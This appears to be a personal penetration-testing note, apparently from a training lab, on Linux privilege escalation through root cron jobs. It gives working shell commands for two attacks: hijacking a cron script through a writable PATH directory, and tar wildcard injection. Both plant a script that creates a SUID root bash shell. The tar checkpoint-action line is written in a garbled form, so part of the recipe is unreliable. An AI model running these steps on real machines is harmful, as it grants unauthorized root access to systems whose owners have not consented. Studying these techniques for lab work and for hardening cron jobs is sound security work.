 -- -
The main workflow here is to see what runs on a schedule from #cron or #systemd and then try to hijack it in some way. This can get creative :)
[[Dark Arts/Privesc/Linux/Enumeration/Cron Jobs|Enum]]
#### overwrite file
```bash
# lets say we found a scheduled task that looks like the following:
# * * * * * root overwrite.sh

# First, look at the PATH set to see where it looks for it, and lets say that path looks like the following:
# PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# so it checks the directories in that order. Look for any directory in that path that you can write to, in the example we can see it first looks through the user directory:
# /home/user
# that looks like a low privilege folder, so lets check it
ls -la /home/user

# that outputs:
# drwxr-xr-x 6 TCM user 4096 Jun 20 15:47 .

# This shows that we can write to that directory. This would also work if the overwrite.sh was writable by us. 

# so just simply make a malicious script, and output it to that location
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh

# then just wait, after it gets run you can run your suid bit shell
/tmp/bash -p 
```
#### Wildcards
For this vector, you: 
- notice a script (or command) that is run via scheduled task. 
- the command uses a wild card in the command
- The script uses a command that uses a wild card
You may then be able to hijack the command being run with a wildcard to get it to hand you a shell. 
```bash
# for this example, we are going to see the following script in the crontab, but same process for if it's a direct command in crontab:
# * * * * * root /usr/local/bin/compress.sh

# it's an absolute path, so we need to see if the script can be manipulated, first check if you can overwrite it:
ls -la /usr/local/bin/compress.sh

# given the location, that is not likely. So next step is to read the script
cat /usr/local/bin/compress.sh

# and lets say we find the use of a wildcard by the following line in /usr/local/bin/compress.sh:
# cd /home/user
# tar czf /tmp/backup.tar.gz *

# again, you can also see that tar command with a wild card used directly in the crontab. Would be the same from here.

# create malicious script, for this example we write to /home/user
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +x runme.sh

# this part is specific to exploiting tar for a wild card
# create flag files in the directory where tar will be run.
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=sh\runme.sh'

# so when tar runs with a wild card, it picks up all the files in pwd, so we are placing files that are named valid tar flags, so when they are picked up, they are processed as flags for tar, so they will point to executing sh and running your malicious script, which since it is run as aroot owned cron job, it will run it as root and spit out the suid shell
```